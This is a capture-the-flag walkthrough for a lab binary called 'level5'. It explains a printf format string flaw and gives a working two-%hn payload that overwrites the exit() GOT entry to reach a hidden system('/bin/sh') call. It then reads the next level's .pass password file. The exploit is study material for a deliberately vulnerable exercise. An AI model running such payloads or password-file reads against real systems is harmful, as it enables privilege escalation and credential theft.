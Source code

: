 # Level5 Walkthrough - GOT Overwrite via Format String

## 🎯 Goal
Exploit a format string vulnerability to overwrite the GOT entry of `exit()` and redirect execution to the hidden `o()` function that spawns a shell.

---

## 🔍 Step 1: Binary Analysis

### **main function**
```asm
0x08048504 <+0>:   push   %ebp
0x08048505 <+1>:   mov    %esp,%ebp
0x08048507 <+3>:   and    $0xfffffff0,%esp
0x0804850a <+6>:   call   0x80484c2 <n>      ; Calls function n
0x0804850f <+11>:  leave  
0x08048510 <+12>:  ret    
```

### **n function (vulnerable)**
```asm
0x080484c2 <+0>:   push   %ebp
0x080484c3 <+1>:   mov    %esp,%ebp
0x080484c5 <+3>:   sub    $0x218,%esp            ; Allocate 536 bytes
0x080484cb <+9>:   mov    0x8049848,%eax         ; stdin
0x080484d0 <+14>:  mov    %eax,0x8(%esp)         
0x080484d4 <+18>:  movl   $0x200,0x4(%esp)       ; Read 512 bytes
0x080484dc <+26>:  lea    -0x208(%ebp),%eax      
0x080484e2 <+32>:  mov    %eax,(%esp)            
0x080484e5 <+35>:  call   0x80483a0 <fgets@plt>  ; fgets(buffer)
0x080484ea <+40>:  lea    -0x208(%ebp),%eax      
0x080484f0 <+46>:  mov    %eax,(%esp)            
0x080484f3 <+49>:  call   0x8048380 <printf@plt> ; VULNERABILITY!
0x080484f8 <+54>:  movl   $0x1,(%esp)            
0x080484ff <+61>:  call   0x80483d0 <exit@plt>   ; Always exits
```

### **o function (hidden shell)**
```asm
0x080484a4 <+0>:   push   %ebp
0x080484a5 <+1>:   mov    %esp,%ebp
0x080484a7 <+3>:   sub    $0x18,%esp
0x080484aa <+6>:   movl   $0x80485f0,(%esp)      ; "/bin/sh"
0x080484b1 <+13>:  call   0x80483b0 <system@plt> ; system("/bin/sh")
0x080484b6 <+18>:  movl   $0x1,(%esp)            
0x080484bd <+25>:  call   0x8048390 <_exit@plt>
```

---

## 🔍 Step 2: Vulnerability Analysis

- **Format String Vulnerability:** `printf(buffer)` directly prints user input.
- **Always Exits:** Program always calls `exit()` after printf.
- **Hidden Function:** `o()` exists at `0x080484a4` → calls `system("/bin/sh")`.
- **Goal:** Overwrite the **GOT entry of exit()** (`0x08049838`) with `o()`'s address.

---

## 🔍 Step 3: GOT Address & Stack Offset

Find exit GOT entry:
```bash
objdump -R level5 | grep exit
08049838 R_386_JUMP_SLOT   exit
```

Find offset in stack:
```bash
python -c 'print "AAAA.%x.%x.%x.%x.%x.%x.%x.%x"' | ./level5
```

Output includes:
```
AAAA.200.b7fd1ac0.b7ff37d0.41414141...
```
`41414141` (`"AAAA"`) appears at **4th position** → **Offset = 4**

---

## 🔍 Step 4: Exploit Strategy

We must write:
- **Target address (o):** `0x080484a4`
- **GOT entry (exit):** `0x08049838`

Split `0x080484a4` into two halves:
- **Lower 2 bytes:** `0x84a4 = 33956`
- **Higher 2 bytes:** `0x0804 = 2052`

We’ll use **two `%hn` writes**:
1. Write `0x84a4` to `0x08049838`
2. Write `0x0804` to `0x0804983a`

---

## 🔍 Step 5: Craft Payload

### Address placement (first on stack)
```python
payload  = "\x38\x98\x04\x08"   # exit GOT (lower half)
payload += "\x3a\x98\x04\x08"   # exit GOT + 2 (upper half)
```

### Padding + format string
```python
payload += "%33948x"            # Pad up to 33956
payload += "%4$hn"              # Write lower 2 bytes
payload += "%33632x"            # Pad to 67588 total
payload += "%5$hn"              # Write higher 2 bytes
```

---

## 🚀 Step 6: Execute Exploit
```bash
(python -c '
print "\x38\x98\x04\x08\x3a\x98\x04\x08" + "%33948x" + "%4$hn" + "%33632x" + "%5$hn"
'; cat) | ./level5
```

---

## 🔍 Step 7: What Happens

- **GOT Overwrite:** `exit@GOT` is modified from `0x080483d0` → `0x080484a4`.
- **Program Calls exit():** Instead of exiting, it jumps into `o()`.
- **Hidden Shell:** `o()` calls `system("/bin/sh")`.
- **Result:** Shell with **level6 privileges**.

---

## 🎯 Step 8: Get the Password
```bash
cat /home/user/level6/.pass
```

---

## 💡 Key Technical Notes

- **Format String Attack:** User controls printf formatting.
- **GOT Overwrite:** By hijacking dynamic linking, we redirect `exit()` to `o()`.
- **%hn Use:** Safer than `%n`, writes 2 bytes at a time.
- **Order of Writes:** Write lower bytes first, then upper bytes.

---

## 🎉 Success!
You now have a shell as **level6**.

Next:
```bash
su level6
```
Enter the password retrieved from `.pass`.
